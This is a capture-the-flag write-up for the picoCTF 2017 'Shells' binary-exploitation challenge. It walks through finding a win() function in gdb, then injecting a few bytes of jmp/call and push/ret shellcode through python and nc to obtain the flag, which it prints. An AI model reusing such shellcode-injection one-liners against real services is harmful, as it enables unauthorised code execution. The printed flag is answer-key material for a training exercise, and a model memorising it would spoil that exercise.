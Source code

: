# Shells

```
How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:58279.
HINTS
Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag
```

This is identical to shellz except that the program only reads 10 bytes and includes a win function that when called will give us a shell.

```C
void win(){
    system("/bin/cat ./flag.txt");
}
```

Let's find the address of the win function in gdb.

```
$ gdb shells -q
Reading symbols from shells...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x8048540 <win>
(gdb)
```

So we need to execute an assembly instruction via the bytes that we enter to call or jump to a function at that location. We used the online assembly compiler from [https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm) for this purpose.

Our initial though was to simply execute a call instruction to the memory address of the win function. But it is important to note that the assembly call and jmp instructions are **relative.** They add to the line you are currently on the given argument and then execute the instructions at that new position. So neither of these worked.

```ASM
call 0x8048540
```
```ASM
jmp 0x8048540
```

We spent hours trying to figure out how to get it to call the right address. In the end we tried values until it lined up with the address we wanted to execute instructions at using the location of segfaults in memory, information we gained via the use of gdb. The result was 2 instructions that did work.

```ASM
jmp    0x1007253b
```
Which compiles to:
```
0:  e9 37 25 07 10          jmp    1007253c <_main+0x1007253c>
```
```ASM
call 0x1007253b
```
Which compiles to:
```
0:  e8 37 25 07 10          call   1007253c <_main+0x1007253c>
```

We injected the jmp instruction into the program using a python -c command, although we could also have used echo -e. The result below yields the flag.

```
$ (python -c "print '\xe9\x36\x25\x07\x10'"; cat) | nc shell2017.picoctf.com 58279
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
84f1e856de605076057b0687dfd0865f
```

While our original solution does work. It was tedious to derive and they gave use a full 10 bytes worth of instruction to accomplish our goal. Those familiar with assembly will note that it takes only 6 bytes to push to the stack and return to that address. We recommend this solution.

```ASM
push 0x8048540
ret
```

This compiles to the following shellcode.

```
0:  68 40 85 04 08          push   0x8048540
5:  c3                      ret 
```

As a string literal, it can be injected using the following python command. It yields the same result with only one extra byte. That byte is certainly worth the hours we spent not using it.

```
$ (python -c "print '\x68\x40\x85\x04\x08\xC3'"; cat) | nc shell2017.picoctf.com 58279
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
84f1e856de605076057b0687dfd0865f
```

On another note, there may be a way to do an absolute call instruction in x86 assembly but we did not explore it here because we were unable to get it to work. Message us if you find a solution involving such an instruction. We would love to hear about it.
